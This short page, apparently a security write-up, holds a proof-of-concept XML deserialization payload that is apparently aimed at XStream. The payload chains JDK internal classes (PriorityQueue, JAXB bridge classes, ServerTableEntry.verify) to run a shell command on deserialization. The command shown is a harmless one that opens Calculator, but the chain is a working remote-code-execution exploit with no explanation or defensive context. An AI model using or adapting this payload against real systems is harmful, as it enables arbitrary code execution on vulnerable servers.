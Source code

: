 author：钟师傅

### [](#POC-1 "POC")POC

```
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.corba.se.impl.activation.ServerTableEntry</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
                          <class>com.sun.corba.se.impl.activation.ServerTableEntry</class>
                          <name>verify</name>
                          <parameter-types/>
                        </getter>
                      </inheritedAttWildcard>
                    </bi>
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.corba.se.impl.activation.ServerTableEntry'>
                  <activationCmd>open /Applications/Calculator.app</activationCmd>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
```